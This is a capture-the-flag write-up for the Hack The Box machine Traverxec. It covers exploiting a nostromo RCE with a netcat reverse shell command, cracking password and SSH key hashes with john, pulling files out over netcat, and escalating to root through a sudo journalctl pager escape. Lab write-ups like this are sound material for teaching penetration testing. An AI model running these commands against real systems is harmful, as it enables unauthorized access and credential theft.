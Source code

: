 ## Traverxec

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.165 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/93d07edf-72aa-4e12-aa14-e45e59082e11)

<br>

We identify the server as nostromo 1.9.6 in the response header. This is also identified by nmap result.

![nostromo](https://github.com/b1d0ws/OSCP/assets/58514930/77d97a1c-ff74-422d-b045-baf2df492278)

<br>

There is a public RCE exploit related to this server that we can use to get the first shell.

```
python2 CVE-2019-16278.py -t 10.10.10.165 -p 80 -c "nc 10.10.14.11 1234 -e bash"
```

![searchsploit](https://github.com/b1d0ws/OSCP/assets/58514930/260e15d8-1d29-4ded-901b-63038222a172)

![publicExploit](https://github.com/b1d0ws/OSCP/assets/58514930/0de33db7-cab2-4855-b6f4-0cec7635699c)

<br>

We need to privesc to user David. LinPeas show us a file containing a password hash that is crackable with john.

```
john davidHash.txt --wordlist=usr/share/wordlists/rockyou.txt
```

![davidPass](https://github.com/b1d0ws/OSCP/assets/58514930/96ec712d-0455-429f-942f-40c12dee2d2d)

Inside the same directory of this file, there is a configuration one related to the website called nhttpd.conf.  

This is a [feature](https://book.dragonsploit.com/web-application-testing/nostromo) of nostromus, which can host homedirs on the website. Here we find that the directory is public_www.

![nhttpd](https://github.com/b1d0ws/OSCP/assets/58514930/185b05cb-b31c-43ff-9dcd-4383c1ae91db)

<br>

Here is the key of this challenge. Note that the david home directory has only execute permission for "others". This means that we can enter the directory, but can't list the files inside it, since for this we need reading permission.  

Since we know the name of the directory, we can enter it.

![acessingPublicwww](https://github.com/b1d0ws/OSCP/assets/58514930/a8054bff-f6c9-49ef-b808-b94c1a6b06f0)

<br>

To transfer the backup-ssh-identity-files.tgz we can use two methods.  

The first one is accessing via web and entering the password previously found (Nowonly4me) or use nc.  

Unpacking the file, we discover SSH files. Crack the passphrase with john and log in as david.

```
# Transferring File
http://traverxec.htb/~david/protected-file-area/backup-ssh-identity-files.tgz

OR

# Kali
nc -lnvp 1234 > backup.tgz
# Victim
nc 10.10.14.11 1234 < backup-ssh-identity-files.tgz

# Cracking passphrase
ssh2john home/david/.ssh/id_rsa > sshHash
john sshHash --wordlist=/usr/share/wordlists/rockyou.txt
```

![loggingSSH](https://github.com/b1d0ws/OSCP/assets/58514930/c6dcc2c1-8c8b-4505-be7a-c14003159fc2)

### Root Flag

The privesc is really simple. Inside /home/david/bin, there is a script running journalctl as sudo. Reading GTFOBins, we discover that it uses less as default pager, so just summon a shell with it.

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
```

![journalctl](https://github.com/b1d0ws/OSCP/assets/58514930/85fcc967-0689-43dc-b5ee-b6546f056383)

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/d0497110-7a4f-488d-9fb9-88e1fffae462)
